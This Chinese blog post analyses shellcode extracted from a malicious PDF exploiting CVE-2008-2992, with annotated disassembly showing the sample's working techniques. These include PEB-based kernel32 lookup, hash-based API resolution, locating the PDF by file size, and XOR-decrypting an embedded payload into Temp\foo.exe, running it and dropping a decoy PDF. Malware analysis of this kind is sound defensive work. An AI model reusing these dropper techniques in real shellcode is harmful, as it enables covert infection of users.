








# 【逆向】PDF CVE-2008-2992 ShellCode 分析 - SunsetR - 博客园

> 原文：[`www.cnblogs.com/SunsetR/p/11278120.html`](https://www.cnblogs.com/SunsetR/p/11278120.html)

上一篇文章里提取的 shellcode 样本，简单分析下吧，主要是对 shellcode 分析方法步骤做一个简单记录。

之前文章链接：[`www.cnblogs.com/SunsetR/p/11270981.html`](https://www.cnblogs.com/SunsetR/p/11270981.html "【逆向】PDF CVE-2008-2992 ShellCode 提取")

分析方法：

使用 IDA 和 OD 配合分析，IDA 可以查看主体流程，标注识别一定代码后可以使用 Graph view 视图进行查看。去除花指令等反反汇编代码后可以 F5 查看伪代码。而使用 OD 则可以动态调试诸如解析函数 Hash，模拟 GetProcAddress 获取函数地址等功能。

分析时切记以下几点：

1、shellcode 中包含了代码和数据，分析时需要手动识别标注它们。

2、为了节省空间，shellcode 通常使用 Hash 值来计算 API 名称。

3、为了躲避杀软，shellcode 免杀处理时通常会使用加密算法进行加密，执行时自解密。

4、为了完成更多功能，shellcode 通常会使用多种技术来获取 Kernel32.dll 基址，进行动态函数调用。

关注以上几点，shellcode 分析时往往能够事半功倍。

下面使用 OD 和 IDA 分别加载 shellcode。





 IDA 在执行分析时，将地址 0-5C 处的内容识别为数据，你可以使用快捷键“C”将它们转换为代码。假如你不能确定数据或代码，可以结合上下文进行分析。



 进入 sub_17B 函数，首先取消(Undefine)IDA 错误识别的函数 sub_17C，使用快捷键“C”将 17C 处重定义为代码，选中 sub_17B 重新编辑函数，将“End address”修改为“00000321”点击 OK。

修改后右键选择“Graph view”(空格)视图显示。



sub_17B 函数第一条指令使用 call/pop 指令组合获取并保存了 call 指令的返回地址，这是 shellcode 常用操作，我们需要重点关注对该地址的内存操作。

```
1 seg000:0000017B  pop     esi                //esi = call 指令返回地址
2 seg000:0000017C  mov     [ebp-14h], esi 3 seg000:0000017F  mov     edi, esi 4 seg000:00000181  mov     ebx, esi           //以上分别保存了 call 指令返回地址
5 seg000:00000183  call    sub_CA
```

sub_CA 函数使用 FS:[30]TEB，PEB 结构体获取 Kernel32.dll 基址。(win7 系统下实际获取的是 KernelBa.dll 基址，为了便于后续分析，手动修改返回值为 Kernel32.dll 基址即可)。

另外 IDA 中可以通过“Type libraries”菜单(shift+F11)手动添加依赖库和标准结构体进行标注(Structure offset)，标注后代码将更容易阅读理解。

```
 1 seg000:000000CA                 push    esi
 2 seg000:000000CB                 xor     eax, eax
 3 seg000:000000CD                 mov     eax, fs:[eax+30h]
 4 seg000:000000D1                 test    eax, eax
 5 seg000:000000D3                 js      short loc_E4 6 seg000:000000D5                 mov     eax, [eax+0Ch]
 7 seg000:000000D8                 mov     esi, [eax+1Ch]
 8 seg000:000000DB                 lodsd
 9 seg000:000000DC                 mov     eax, [eax+8] 10 seg000:000000DF                 jmp     loc_E9 11 seg000:000000E4 loc_E4: 12 seg000:000000E4                 jmp     loc_E4 13 seg000:000000E9 loc_E9: 14 seg000:000000E9                 pop     esi 15 seg000:000000EA                 retn
```

接下来的代码通过 call 指令返回地址获取函数名称 Hash，然后通过 sub_7E 函数循环获取函数实际调用地址。并将获取到的函数地址，按顺序写回 call 指令返回地址。该操作一共获取了 15 个 API 地址。

```
 1 seg000:00000183 call    myGetKernelBase 2 seg000:00000188  mov     [ebp-4], eax       //保存 Kernel32 基址
 3 seg000:0000018B  mov     ecx, 0Eh           //循环 14 次
 4 seg000:00000190 loc_190: 5 seg000:00000190 lodsd 6 seg000:00000191  push    eax                //名称 Hash
 7 seg000:00000192  push    dword ptr [ebp-4]  //KernelBase
 8 seg000:00000195  call    sub_7E             //获取名称 Hash 对应函数地址
 9 seg000:0000019A  stosd                      //写回 call 指令返回地址
10 seg000:0000019B  loop    loc_190            //循环执行
11 seg000:0000019D  push    32336Ch 12 seg000:000001A2  push    6C656873h          //通过栈拼接字符串"shell32"
13 seg000:000001A7  mov     eax, esp 14 seg000:000001A9  push    eax 15 seg000:000001AA  call    dword ptr [ebx]    //LoadLibraryA 获取 shell32 基址
16 seg000:000001AC  xchg    eax, ecx 17 seg000:000001AD  lodsd 18 seg000:000001AE  push    eax                //nameHash
19 seg000:000001AF  push    ecx                //dllBase
20 seg000:000001B0  call    sub_7E             //获取名称 Hash 对应函数地址
21 seg000:000001B5  stosd                      
```

 

接下来代码遍历文件句柄，通过获取文件大小来校验是否是打开的 PDF 文件，所以在调试分析 shellcode 时需要将 PDF 文件一同加载到内存中。

```
 1 seg000:000001B6  xor     esi, esi
 2 seg000:000001B8  mov     ebx, [ebp-14h]      //ebx = call 指令返回地址
 3 seg000:000001BB  loc_1BB:                                 
 4 seg000:000001BB  add     esi, 4              
 5 seg000:000001C1  lea     eax, [ebp-8]        
 6 seg000:000001C4  push    eax                 
 7 seg000:000001C5  push    esi                 
 8 seg000:000001C6  call    dword ptr [ebx+1Ch] //GetFileSize
 9 seg000:000001C9  cmp     eax, [ebx+3Ch]      //与返回地址+偏移 3C 处的文件大小比较
10 seg000:000001CC  jnz     short loc_1BB       //如果文件大小不等于“C602”,循环执行
```



获取 PDF 文件句柄后，通过之前获取的“GlobalAlloc”API 动态申请内存空间，并从 PDF 文件开头 106F 偏移处读取 A000 大小的数据到申请的缓冲区内。缓冲区大小从 call 指令返回地址偏移 0x40 处获取（nSize = A000）。

```
 1 seg000:000001CE  mov     [ebp-8], esi          //保存 pdf 文件句柄
 2 seg000:000001D1  xor     edx, edx               
 3 seg000:000001D3  push    dword ptr [ebx+44h]   //Buff Size
 4 seg000:000001D6  push    edx                   
 5 seg000:000001D7  call    dword ptr [ebx+30h]   //GlobalA1loc
 6 seg000:000001DA  test    eax, eax               
 7 seg000:000001DC  jz      loc_313               
 8 seg000:000001E2  mov     [ebp-0Ch], eax        //保存地址
 9 seg000:000001E5  xor     edx, edx 10 seg000:000001E7  push    edx                   //FILE_BEGIN
11 seg000:000001E8  push    edx 12 seg000:000001E9  push    dword ptr [ebx+40h]   //offset 106F
13 seg000:000001EC  push    dword ptr [ebp-8]     //hFile
14 seg000:000001EF  call    dword ptr [ebx+20h]   //SetFilePointer
15 seg000:000001F2  push    dword ptr [ebx+44h]   //Buff size
16 seg000:000001F5  push    dword ptr [ebp-0Ch]   //Buff
17 seg000:000001F8  push    dword ptr [ebp-8]     //hFile
18 seg000:000001FB  push    dword ptr [ebx+24h]   //ReadFile
19 seg000:000001FE  call    sub_13D               //读取文件数据到 BUff
```

获取并拼接 Temp\foo.exe 路径，解密 PDF 中获取的 Buff 数据，将解密后的数据写入 foo.exe 文件

```
 1 seg000:00000203 xor     eax, eax 2 seg000:00000205  lea     edi, [ebp-124h]              
 3 seg000:0000020B  mov     ecx, 40h ; '@'                  
 4 seg000:00000210  rep stosd                            //初始化 [ebp-124h]
 5 seg000:00000212  lea     edi, [ebp-124h]              
 6 seg000:00000218 push    edi 7 seg000:00000219 push    100h 8 seg000:0000021E  call    dword ptr [ebx+10h]          //GetTempPathA
 9 seg000:00000221 xor     eax, eax 10 seg000:00000223  lea     edi, [ebp-124h] 11 seg000:00000229  repne scasb                          //获取 temp 路径结尾
12 seg000:0000022B  dec     edi 13 seg000:0000022C  mov     [ebp-1Ch], edi 14 seg000:0000022F  mov     dword ptr [edi], 2E6F6F66h 15 seg000:00000235  mov     dword ptr [edi+4], 657865h   //在 temp 路径后追加 foo.exe
16 seg000:0000023C  mov     ebx, [ebp-14h] 17 seg000:0000023F  lea     eax, [ebp-124h] 18 seg000:00000245  push    eax                          //temp\foo.exe
19 seg000:00000246  push    4Ah ; 'J'                    //key
20 seg000:0000024B  push    dword ptr [ebx+44h]          //BuffSize
21 seg000:0000024E  push    dword ptr [ebp-0Ch]          //Buff
22 seg000:00000251  push    ebx                          //返回地址
23 seg000:00000252  call    sub_EB                       //解密 Buff 写 temp\foo.exe
```


 

创建进程，启用 foo.exe 程序。



 重复之前操作，申请新的缓冲区，从 PDF 开头偏移 0xB06F 处读取 144E 大小数据到缓冲区，使用相同方法解密数据，并创建 Temp\bar.pdf 执行。




